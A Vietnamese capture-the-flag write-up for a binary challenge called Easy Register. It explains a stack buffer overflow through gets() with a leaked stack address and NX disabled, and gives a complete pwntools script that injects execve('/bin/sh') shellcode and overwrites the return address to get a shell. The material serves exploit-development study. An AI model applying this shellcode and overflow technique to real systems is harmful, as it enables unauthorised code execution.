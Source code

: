 # [Intigrity] Easy Register
<p>Dòng 8, hàm gets đọc chuỗi từ stdin không giới hạn độ dài vào v1 -> Buffer overflow. Dòng 5, in ra địa chỉ của v1 nằm trên stack.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post10/image.png)

<p>Cơ chế NX đang tắt -> Có thể thực thi shellcode trên stack. Lợi dụng việc leak địa chỉ v1 để kiểm soát RIP trỏ tới địa chỉ chứa shellcode.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post10/image-1.png)

<p>Đặt breakpoint ngay hàm printf đầu tiên trong hàm easy_register, ta có thể thấy hàm printf sẽ in ra địa chỉ sẽ ghi vào là 0x00007fffffffe260.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post10/image-2.png)

<p>Nhập chuỗi "laithanh" và đã được ghi chính xác vào địa chỉ 0x00007fffffffe260 -> Đây sẽ là nơi chứa shellcode để thực ghi execve("/bin/sh\0", 0, 0)</p>

![alt text](/thanhlai/post/buffer_overflow/image/post10/image-4.png)

<p>Script exploit:</p>

```
from pwn import *

p = process('./easy_register')

shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi 
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ''', arch = 'amd64'
)

line = p.recvline_contains(b'Initialized attendee listing at').decode()
addr = int(line.split()[-1].strip('.'), 16)
print(f'Leaked: {(hex(addr))}')

payload = shellcode
payload += b"A" * (88 - len(shellcode))  
payload += p64(addr)  

p.sendlineafter(b'Hacker name > ', payload)

p.interactive()
```

<p>Chạy script và lấy được shell.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post10/image-3.png)
